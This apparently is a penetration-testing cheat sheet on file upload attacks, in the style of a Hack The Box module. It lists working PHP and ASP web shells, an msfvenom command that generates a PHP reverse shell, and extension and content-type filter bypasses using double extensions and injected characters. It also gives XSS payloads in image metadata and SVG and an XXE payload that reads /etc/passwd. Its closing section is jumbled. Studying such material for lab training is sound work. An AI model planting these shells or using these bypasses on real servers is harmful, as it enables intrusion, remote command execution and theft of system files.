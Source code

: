 ## Web Shells

|**Web Shell**|**Description**|
|---|---|
|`<?php file_get_contents('/etc/passwd'); ?>`|Basic PHP File Read|
|`<?php system('hostname'); ?>`|Basic PHP Command Execution|
|`<?php system($_REQUEST['cmd']); ?>`|Basic PHP Web Shell|
|`<% eval request('cmd') %>`|Basic ASP Web Shell|
|`msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`|Generate PHP reverse shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)|PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)|PHP Reverse Shell|
|[Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)|List of Web Shells and Reverse Shells|

## Bypasses

|**Command**|**Description**|
|---|---|
|**Client-Side Bypass**||
|`[CTRL+SHIFT+C]`|Toggle Page Inspector|
|**Blacklist Bypass**||
|`shell.phtml`|Uncommon Extension|
|`shell.pHp`|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)|List of Web Extensions|
|**Whitelist Bypass**||
|`shell.jpg.php`|Double Extension|
|`shell.php.jpg`|Reverse Double Extension|
|`%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`|Character Injection - Before/After Extension|
|**Content/Type Bypass**||
|[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)|List of Web Content-Types|
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)|List of File Signatures/Magic Bytes|

## Limited Uploads

|**Potential Attack**|**File Types**|
|---|---|
|`XSS`|HTML, JS, SVG, GIF|
|`XXE`/`SSRF`|XML, SVG, PDF, PPT, DOC|
|`DoS`|ZIP, JPG, PNG|
include an XSS payload in one of the Metadata parameters that accept raw text, like the `Comment` or `Artist` parameters, as follows:
```shell-session
alakin2504@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
alakin2504@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```
XSS attacks can also be carried with `SVG` images, along with several other attacks.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
## Injections in File Name

**Simple .NET shell**
```asp
<% eval request('cmd') %>
```

%20
%0a
%00
%0d0a
/
.\
.
…
: